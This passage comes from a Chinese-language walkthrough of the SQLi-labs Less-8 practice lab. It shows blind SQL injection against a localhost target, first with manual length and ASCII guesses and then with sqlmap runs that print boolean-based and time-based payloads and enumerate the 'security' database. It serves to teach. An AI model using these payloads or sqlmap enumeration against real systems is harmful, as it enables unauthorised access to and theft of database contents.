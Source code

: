 ```sql
id=1' and length(database()) =8 --+
```

2. 然后猜测当前的数据库名（使用ascii码来依次判断）

```sql
http://localhost/Less-8/index.php?id=1’ and ascii(substr((database()),1,1)) =115%23 --+
```

但是这样子非常的浪费时间，所以这里可以直接使用工具sqlmap爆破：

```bash
┌──(root㉿Seso)-[~]
└─# sqlmap -u "http://localhost/Less-8/index.php?id=1" --batch --current-db

sqlmap identified the following injection point(s) with a total of 255 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 9480=9480 AND 'rwkp'='rwkp

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 3028 FROM (SELECT(SLEEP(5)))VwWo) AND 'vqIt'='vqIt
---
[00:26:27] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.5.9, Apache 2.4.7
back-end DBMS: MySQL >= 5.0.12
[00:26:27] [INFO] fetching current database
[00:26:27] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[00:26:27] [INFO] retrieved: security
current database: 'security'
[00:26:28] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/localhost'

[*] ending @ 00:26:28 /2024-05-07/
```

然后可以查询到当前的数据库名为security。

查询一下当前的数据库有哪些数据表，可以继续使用sqlmap工具爆破：

```bash
┌──(root㉿Seso)-[~]
└─# sqlmap -u "http://localhost/Less-8/?id=1" --batch -D security --tables

sqlmap identified the following injection point(s) with a total of 255 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 8575=8575 AND 'eElN'='eElN

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 8490 FROM (SELECT(SLEEP(5)))oSnA) AND 'AGxQ'='AGxQ
---
[00:30:23] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL >= 5.0.12
[00:30:23] [INFO] fetching tables for database: 'security'
[00:30:23] [INFO] fetching number of tables for database 'security'
```